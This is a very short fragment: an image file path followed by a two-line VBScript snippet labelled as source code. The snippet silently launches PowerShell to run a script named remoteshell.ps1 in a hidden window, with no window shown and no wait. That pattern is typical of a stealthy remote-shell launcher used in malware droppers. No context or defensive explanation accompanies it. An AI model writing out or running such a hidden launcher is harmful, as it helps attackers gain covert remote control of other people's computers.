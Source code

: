 Set objShell = CreateObject("WScript.Shell")
objShell.Run "powershell.exe remoteshell.ps1", 0, False
